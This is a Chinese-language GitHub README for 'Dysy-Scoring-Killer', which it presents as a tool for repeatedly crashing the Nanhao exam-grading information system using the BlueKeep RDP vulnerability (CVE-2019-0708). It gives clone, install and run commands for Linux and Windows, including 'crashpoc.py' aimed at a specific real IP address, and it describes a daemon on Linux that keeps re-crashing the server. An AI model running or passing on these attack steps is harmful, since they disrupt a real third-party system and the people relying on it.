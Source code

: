 # Dysy-Scoring-Killer
南昊阅卷信息系统自动崩溃器

本代码基于CVE-2019-0708,因为原代码库未添加任何协议,因此此存储库无权添加开源协议。

## 运行(Linux)

前提:Python 3.0+环境,Pip3环境,Git环境

>git clone https://github.com/Dysyzx/Dysy-Scoring-Killer.git

>cd Dysy-Scoring-Killer

>chmod +x run.sh

>pip3 install impacket

>sh run.sh

## 运行(Windows)

Windows代码没有守护性,运行一次之后不会有守护进程重启,服务端如果带有自我恢复进攻则时效较短

前提:Python 3.0+环境,Pip3环境,Git For Windows环境

>git clone https://github.com/Dysyzx/Dysy-Scoring-Killer.git

>cd Dysy-Scoring-Killer

>pip3 install impacket

>python crashpoc.py 218.56.181.50 64
